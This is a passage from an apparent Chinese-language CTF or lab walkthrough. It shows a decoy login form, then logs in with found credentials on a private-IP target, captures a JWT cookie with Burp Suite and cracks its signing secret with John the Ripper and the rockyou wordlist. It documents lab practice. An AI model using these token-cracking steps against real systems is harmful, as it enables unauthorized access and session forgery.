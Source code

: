 ```html

    <button type="submit">登录</button>
  </form>

  <div class="small" style="margin-top:12px">
  </div>
</div>
</body>
</html>
```

源码注释显示这是一个迷惑表单，真正的认证需要通过隐藏的 token 字段。

# 三、JWT 令牌分析

## 用户登录

尝试登录 user 页面，使用凭据 `ame:jiayouachunyu` 成功进入用户面板，这是一个基础的管理面板，没有特殊功能。

使用 Burp Suite 抓取刷新包，发现 Cookie 中包含 JWT 令牌：

```
POST /user HTTP/1.1
Host: 192.168.205.235
...
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJtb2JhbiIsImlhdCI
...

username=ame&password=jiayouachunyu
```

## JWT 密钥破解

使用在线 JWT 解码工具（ https://jwt.cagdastunca.com/ ）解析令牌结构。

使用 John the Ripper 对 JWT 密钥进行暴力破解：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ vim hash             
                                                                                                                                                                                
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cat hash                                         
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJtb2JhbiIsImlhdCI6MTc1O...
                                                                                                                                                                                
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
...
nevergiveup      (?)   
...
```

